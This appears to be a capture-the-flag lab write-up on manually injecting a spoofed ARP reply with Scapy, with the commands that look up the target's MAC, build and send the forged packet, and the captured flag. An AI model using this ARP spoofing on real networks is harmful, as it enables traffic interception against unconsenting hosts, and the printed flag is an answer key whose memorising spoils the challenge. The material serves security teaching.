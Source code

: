 # 🧠 CTF Writeup: Manual ARP Packet Injection

## 📜 Task

Manually send an Address Resolution Protocol (ARP) packet.  
The packet should inform the remote host that the IP address `10.0.0.42` is associated with the Ethernet (MAC) address `42:42:42:42:42:42`.  
Send this spoofed packet to the host at `10.0.0.2`.

---

## 🛠️ Tools & Environment

- **Tool Used**: [Scapy](https://scapy.net/) (version 2.6.1)
- **Target IP**: `10.0.0.2`
- **Fake IP**: `10.0.0.42`
- **Fake MAC**: `42:42:42:42:42:42`
- **Interface**: `eth0`

---

## 🧪 Steps & Solution

### 🔍 Step 1: Identify MAC address of target host

We use a Python script (`mac_3.py`) to get the MAC address of the host at `10.0.0.2`:

```bash
root@ip-10-0-0-1:~# python mac_3.py
ip:10.0.0.2
IP: 10.0.0.2 - MAC: 16:db:11:82:36:73
```

###  Step 2: Open Scapy
```bash
root@ip-10-0-0-1:~# scapy -H
Welcome to Scapy (2.6.1) using IPython 8.29.0
```

### Step 3: Craft and send the ARP packet
We craft a spoofed ARP reply indicating that 10.0.0.42 has MAC 42:42:42:42:42:42, and send it to the host at 10.0.0.2:
```bash
>>> pkt = Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(
...     op=2,
...     psrc='10.0.0.42',
...     hwsrc='42:42:42:42:42:42',
...     pdst='10.0.0.2',
...     hwdst='16:db:11:82:36:73'
... )
>>> sendp(pkt, iface="eth0")
.
Sent 1 packets.
```
---
## Flag
```bash 
pwn.college{c8CRYUHAQYu8uY0dwMH5e2-eBE8.QXwczMzwSM0IzMyEzW}
```
---
